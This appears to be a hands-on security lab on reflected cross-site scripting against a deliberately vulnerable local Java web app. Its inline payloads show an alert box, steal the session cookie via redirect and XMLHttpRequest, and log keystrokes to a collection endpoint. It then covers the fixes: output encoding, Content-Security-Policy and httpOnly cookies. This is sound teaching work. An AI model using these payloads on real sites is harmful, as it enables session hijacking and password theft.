

What You'll Learn
- What is Cross-Site Scripting (XSS)
- Demonstration of reflected cross-site scripting attacks
- Cross-Site Scripting Mitigations

- Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted web sites.
- XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser-side script, to a different end-user.
- Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application uses input from a user within the output it generates without validating or sanatising/encoding it.
- Without mitigations, the end user's browser has no way to know that the script should not be trusted, and will execute the script.
- The malicious script can access any cookies, local storage, or other sensitive information retained by the browser and used with that site. Scripts can even rewrite the content of the HTML page.

** https://spanning.com/blog/cross-site-scripting-web-based-application-security-part-3/
- Ensure your hosts file has the following entries:
sudo vi /etc/hosts
127.0.0.1 badsite.ac.uk
127.0.0.1 trustedsite.ac.uk
- Run the java file:
java -jar vulnerable-webapp-1.2.1.jar - The default username is
jblogsand the default password ispa55word. - You will need a web browser such as firefox.
Before we inject the cross-site scripting attacks, try:
- Navigate to
http://trustedsite.ac.uk:8080/itemsand login withjblogsandpa55word. - You should see a list of items.
- Now add a search term to the URL
http://trustedsite.ac.uk:8080/items?q=two. - You should see only items with two in the description displayed and the search term is reflected at the top of the page.
A simple demonstration to show site is vulnerable to XSS
First, we will demonstrate that cross-site scripting is possible by injecting JavaScript into the items search query parameter from a cross-site (badsite → trustedsite) request.
- Navigate to
http://trustedsite.ac.uk:8080/itemsand login withjblogsandpa55word. - In a new browser tab, navigate to
http://badsite.ac.uk:8080/pet-rescue. Assume you had been tricked into visiting this website. - Click on the Rescue Tommy! hyperlink.
- Your browser should navigate to
trustedsiteand a JavaScript alert box should show. This site is vulnerable to XSS.
NOTE: Script used:
<script>alert('Worked')</script>
Next, we will show how to inject JavaScript that will display the user's session cookie in an alert box.
- Navigate to
http://trustedsite.ac.uk:8080/itemsand login withjblogsandpa55word - In a new browser tab navigate to
http://badsite.ac.uk:8080/pet-rescue. Assume you had been tricked into visiting this website. - Click on the ‘Alert Tommy's Cookies!' hyperlink.
- Your browser should navigate to
trustedsiteand a JavaScript alert box should show with your JESSIONID. - This is not ideal, but so far, has the attacker achieved much?
NOTE: Script used
<script>alert(document.cookie)</script>
Next, we will try sending the session cookie to an endpoint the attacker controls:
- Navigate to
http://trustedsite.ac.uk:8080/itemsand login withjblogsandpa55word. - In a new browser tab navigate to
http://badsite.ac.uk:8080/pet-rescue. Assume you had been tricked into visiting this website. - Click on the Send me Tommy's Cookies! hyperlink.
- Your browser should navigate to the items page of
trustedsite. - It does not appear much happened, but if you check the Java application's console for log messages, you should see something like:
Found cookie [JSESSIONID=88A38544BE3E8EC6A1DF4D4D7E7C2D64]
- You can also check the browsers Network Inspector/Monitor to see the GET request e.g.
http://trustedsite.ac.uk:8080/sendme?cookie=JSESSIONID=88A38544BE3E8EC6A1DF4D4D7E7C2D64
NOTE: Script used
<script>window.location='/sendme?cookie='+document.cookie</script>
and
<script>var req = new XMLHttpRequest();req.open('GET', 'http://trustedsite.ac.uk:8080/sendme?cookie='+document.cookie, true);req.send();</script>
JavaScript injection is very powerful. If your site is vulnerable, you have effectively got malware running in your browser.
The attacker could register a keyboard event listener script using addEventListener and then send all of the user's keystrokes to their server. Potentially recording sensitive information such as passwords and credit card numbers.
- Navigate to
http://trustedsite.ac.uk:8080/itemsand login withjblogsandpa55word. - In a new browser tab navigate to
http://badsite.ac.uk:8080/pet-rescue. Assume you had been tricked into visiting this website. - Click on the Send me some keystrokes! hyperlink.
- Your browser should navigate to the items page of
trustedsite. - Try pressing some keys whilst the browser page is in focus.
- Inspect the Java application's console log, you should see the keystrokes reflected there.
NOTE: Script used
<script>var buffer=[];var attacker ='http://trustedsite.ac.uk:8080/shadow?keys=';document.onkeypress = function(e) {var timestamp = Date.now() | 0; var stroke = {k: e.key,t: timestamp }; buffer.push(stroke); } ; window.setInterval(function() { if (buffer.length > 0) {var data = encodeURIComponent(JSON.stringify(buffer));new Image().src = attacker + data;buffer = [];}}, 200);</script>
Now we'll look at the following defense against XSS attacks.
- Output Encoding.
- httpOnly Cookies.
- Content-Security-Policy
PostiveNote, there isn't a single 100% effective defense against XSS attacks. Defense is depth is important, use as many techniques/mechanisms as you can.
The output can be encoded by the templating engine. This was turned off in Thymeleaf for the search output on the items page. That is, th:utext was used instead of th:text.
<span style="padding: 5px" th:utext="${searchTerm}">
Changing th:utext to th:text would trigger Thymeleaf into encoding the injected script into a form syntactically valid for HTML, but not syntactically valid for JavaScript - thus preventing the script from being executed by the browser.
If you use other frameworks you need to check if this happens natively, otherwise, you'll need a library to help encode the output.
This requires the diligence of the programmer to make sure they do this correctly for every input/output. This is one of the most important ways to prevent Cross-Site Scripting attacks.
Another line of defense against XSS is Content-Security-Policy (CSP). A simple CSP can be configured by setting the cspEnabled=true program argument e.g. run the application using:
java -DcspEnabled=true -jar target/vulnerable-webapp-1.2.1-SNAPSHOT.jar
This configures the CSP policy: script-src 'self', which disallows inline javascript (like the ones we are injecting) from executing. The only scripts that it can run must be loaded from a separate resource file on the same origin, for example, using:
script src="external-file-on-same-origin"/.
If you now try any of the reflected XSS attacks shown so far, you should see a similar message to the following in the browser's console:
Content Security Policy: The page's settings blocked the loading of a resource at inline ("script-src")
Content Security Policies can be detailed, complicated, and hard to get right. See the slides for more information.
One small, but still important, defense against the session stealing attacks seen so far, is to set the httpOnly flag on our session cookie.
Currently, all our cookies have the flag httpOnly=false. This means they can be read by scripts. Of particular worry is the session cookie named JSESSIONID. To prevent the session cookie from being readable — and hence easily stolen — we can set the httpOnly flag to true.
Run the application again, this time using the httpOnlyCookiesEnabled=true program argument e.g.
java -DhttpOnlyCookiesEnabled=true -jar target/vulnerable-webapp-1.2.1-SNAPSHOT.jar
Now, if you try any of the attacks above that read the session cookie they will fail, as they are unable to read httpOnly cookies, including, importantly, the JSESSIONID.